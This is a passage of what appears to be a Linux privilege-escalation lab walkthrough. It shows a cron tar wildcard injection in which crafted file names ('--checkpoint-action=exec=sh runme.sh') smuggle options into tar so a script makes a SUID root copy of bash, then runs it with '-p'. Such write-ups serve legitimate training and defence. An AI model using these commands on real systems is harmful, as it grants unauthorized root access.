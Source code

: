 ```bash
/tmp/bash -p
```

![Privilege Escalation](./Image/43.png)

## Escalation via Cron Wildcards

For this example, we will use `tar` as specified in the `/etc/crontab` file:

![Privilege Escalation](./Image/44.png)

To exploit this vulnerability, execute the following commands:

```bash
echo 'cp /bin/bash /tmp/bash3; chmod +s /tmp/bash3' > /home/user/runme.sh
chmod +x /home/user/runme.sh
touch '/home/user/--checkpoint=1'
touch '/home/user/--checkpoint-action=exec=sh runme.sh'

/tmp/bash3 -p
```

![Privilege Escalation](./Image/45.png)
